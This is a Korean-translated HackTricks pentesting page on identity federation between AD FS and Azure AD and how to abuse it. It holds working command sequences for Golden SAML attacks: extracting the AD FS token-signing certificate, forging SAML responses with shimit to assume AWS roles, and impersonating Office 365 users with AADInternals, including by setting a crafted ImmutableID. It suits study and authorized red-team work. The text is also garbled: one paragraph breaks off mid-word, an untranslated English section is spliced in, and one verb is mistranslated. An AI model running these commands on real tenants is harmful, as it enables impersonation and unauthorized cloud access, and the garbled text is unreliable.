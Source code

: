 # 연합

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 기본 정보

[문서에서 참조:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**연합**은 **신뢰**를 확립한 **도메인**의 모음입니다. 신뢰 수준은 다양할 수 있지만 일반적으로 **인증**을 포함하고 거의 항상 **인가**를 포함합니다. 일반적인 연합은 **공유 리소스에 대한 공유 액세스**를 위해 **신뢰**를 확립한 **여러 조직**을 포함할 수 있습니다.

온프레미스 환경을 Azure AD와 **연합**하여 인증 및 인가에 사용할 수 있습니다. 이 로그인 방법은 모든 사용자 **인증이 온프레미스에서 발생**함을 보장합니다. 이 방법을 사용하면 관리자가 더 엄격한 액세스 제어 수준을 구현할 수 있습니다. **AD FS** 및 PingFederate와의 연합이 가능합니다.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

기본적으로 연합에서는 모든 **인증**이 **온프레미스** 환경에서 발생하며 사용자는 신뢰할 수 있는 모든 환경에서 SSO를 경험합니다. 따라서 사용자는 **온프레미스 자격 증명**을 사용하여 **클라우드** 애플리케이션에 액세스할 수 있습니다.

**보안 주장 표시 언어 (SAML)**은 공급자 간에 인증 및 인가에 대한 모든 정보를 **교환**하는 데 사용됩니다.

연합 설정에는 세 가지 주체가 있습니다:

* 사용자 또는 클라이언트
* Identity Provider (IdP)
* Service Provider (SP)

(https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps에서 이미지 가져옴)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. 처음에는 사용자가 응용 프로그램 (AWS 콘솔 또는 vSphere 웹 클라이언트와 같은 Service Provider 또는 SP)에 액세스합니다. 구체적인 구현에 따라이 단계는 우회되어 클라이언트를 직접 IdP (Identity Provider)로 이동시킬 수 있습니다.
2. 그런 다음 SP는 사용자 인증을 위해 적절한 IdP (예: AD FS, Okta)를 식별합니다. 그런 다음 SP는 SAML (보안 주장 표시 언어) AuthnRequest를 작성하고 클라이언트를 선택한 IdP로 리디렉션합니다.
3. IdP가 인증을 수행하여 사용자를 인증합니다. 인증 후 IdP는 SAMLResponse를 작성하고 사용자를 통해 SP로 전달합니다.
4. 마지막으로 SP는 SAMLResponse를 평가합니다. IdP와의 신뢰 관계를 나타내는 성공적인 유효성 검사를 의미하면 사용자에게 액세스 권한이 부여됩니다. 이로써 로그인 프로세스가 완료되어 사용자가 서비스를 활용할 수 있게 됩니다.

**SAML 인증 및 일반적인 공격에 대해 더 알고 싶다면 다음으로 이동하세요:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 피벗

* AD FS는 클레임 기반 신원 모델입니다.
* "..클레임은 주로 인터넷 어디에서든 클레임 기반 애플리케이션에 대한 액세스 권한을 인가하는 데 사용되는 사용자에 대한 선언문(예: 이름, 신원, 그룹)입니다."
* 사용자에 대한 클레임은 SAML 토큰 내에 작성되고 IdP에 의해 기밀성을 제공하기 위해 서명됩니다.
* 사용자는 ImmutableID에 의해 식별됩니다. 이는 전역적으로 고유하며 Azure AD에 저장됩니다.
* ImmutableID는 사용자의 GUID에서 파생될 수 있으며 사용자의 Azure AD에 대한 일관성 Guid로서 온프레미스에 저장됩니다.
* 자세한 내용은 [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)에서 확인할 수 있습니다.

**Golden SAML 공격:**

* ADFS에서 SAML 응답은 토큰 서명 인증서에 의해 서명됩니다.
* 인증서가 침해되면 Azure AD에 동기화된 **모든 사용자로 인증**할 수 있습니다!
* PTA 남용과 마찬가지로 사용자의 암호 변경이나 MFA는 어떤 영향도 미치지 않습니다. 왜냐하면 우리는 인증 응답을 위조하고 있기 때문입니다.
* 인증서는 DA 권한을 가진 AD FS 서버에서 추출한 다음 인터넷에 연결된 임의의 기기에서 사용할 수 있습니다.
* 자세한 내용은 [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)에서 확인할 수 있습니다.

### Golden SAML

**Identity Provider (IdP)**가 사용자 로그인을 승인하기 위해 **SAMLResponse**를 생성하는 프로세스는 매우 중요합니다. Id
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
모든 정보를 가지고 있으면 [**shimit**](https://github.com/cyberark/shimit)을 사용하여 피해자로 위장할 때 유효한 SAMLResponse를 잊을 수 있습니다:

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### 온프레미스 -> 클라우드
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
# Federation

## ImmutableID

Azure AD Connect uses the `ImmutableID` attribute to synchronize on-premises Active Directory (AD) users with cloud-only users in Azure AD. This attribute is used to establish a link between the on-premises user and the cloud-only user.

It is important to note that the `ImmutableID` attribute is not meant to be modified by users or administrators. However, as a hacker, you can exploit this attribute to impersonate cloud-only users.

By creating a new `ImmutableID` for a cloud-only user, you can establish a connection between the on-premises user and the cloud-only user. This allows you to impersonate the cloud-only user and gain unauthorized access to their resources.

To create a new `ImmutableID`, you can use various methods such as modifying the attribute directly in Azure AD or using PowerShell scripts. Once the new `ImmutableID` is set, you can use it to authenticate as the cloud-only user and perform lateral movement within the Azure AD environment.

It is important to note that this technique should only be used for ethical hacking purposes and with proper authorization. Unauthorized use of this technique can lead to legal consequences.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
